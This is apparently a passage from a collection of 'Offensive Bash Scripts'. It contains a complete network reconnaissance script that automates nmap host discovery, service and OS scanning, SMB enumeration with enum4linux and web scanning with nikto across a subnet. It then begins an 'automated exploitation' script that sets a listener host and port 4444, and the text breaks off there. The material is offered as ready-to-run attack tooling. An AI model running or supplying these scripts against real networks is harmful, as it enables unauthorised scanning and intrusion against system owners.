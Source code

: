 ### Offensive Bash Scripts

#### Network Reconnaissance
```bash
#!/bin/bash
# network_recon.sh - Comprehensive network reconnaissance

TARGET_NETWORK="192.168.1.0/24"
OUTPUT_DIR="recon_results"

# Create output directory
mkdir -p $OUTPUT_DIR

echo "[*] Starting network reconnaissance"
echo "[*] Target: $TARGET_NETWORK"

# Host discovery
echo "[*] Discovering live hosts..."
nmap -sn $TARGET_NETWORK -oG - | grep "Up" | cut -d' ' -f2 > $OUTPUT_DIR/live_hosts.txt

# Port scanning
echo "[*] Scanning ports on live hosts..."
while read host; do
    echo "[*] Scanning $host"
    nmap -sV -O $host -oN $OUTPUT_DIR/${host}_scan.txt &
done < $OUTPUT_DIR/live_hosts.txt

wait

# Service enumeration
echo "[*] Enumerating services..."
for scan_file in $OUTPUT_DIR/*_scan.txt; do
    host=$(basename $scan_file _scan.txt)
    
    # Check for SMB
    if grep -q "445/tcp" $scan_file; then
        echo "[*] SMB found on $host"
        enum4linux -a $host > $OUTPUT_DIR/${host}_smb.txt 2>&1
    fi
    
    # Check for HTTP
    if grep -q "80/tcp\|8080/tcp" $scan_file; then
        echo "[*] Web service found on $host"
        nikto -h http://$host > $OUTPUT_DIR/${host}_nikto.txt 2>&1
    fi
done

echo "[+] Reconnaissance complete! Results in $OUTPUT_DIR/"
```

#### Automated Exploitation Framework
```bash
#!/bin/bash
# auto_exploit.sh - Automated exploitation script

TARGET=$1
LHOST=$(hostname -I | awk '{print $1}')
LPORT=4444

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target>"
    exit 1
fi

```